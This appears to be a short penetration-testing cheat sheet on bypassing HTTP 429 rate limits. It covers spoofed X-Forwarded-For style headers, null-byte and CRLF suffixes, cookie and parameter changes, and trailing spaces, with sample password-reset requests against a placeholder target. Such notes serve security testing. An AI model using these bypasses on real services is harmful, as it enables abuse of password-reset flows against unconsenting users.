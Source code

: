 ```yaml
---
title: "Bypass 429 (Too Many Requests)"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:07+08:00
draft: false
---
```


## Try add some custom header {#try-add-some-custom-header}

```nil
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```

For example:

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```


## Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of {#adding-null-byte--00--or-crlf--09-0d-0a--at-the-end-of}

the Email can bypass rate limit.

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```


## Try changing user-agents, cookies and IP address {#try-changing-user-agents-cookies-and-ip-address}

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```

Try this to bypass

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```


## Add a random parameter on the last endpoint {#add-a-random-parameter-on-the-last-endpoint}

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

Try this to bypass

```nil
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```


## Add space after the parameter value {#add-space-after-the-parameter-value}

```nil
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```

Try this to bypass

```nil
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```


## References {#references}

-   [Huzaifa
    Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
-   [Gupta
    Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)

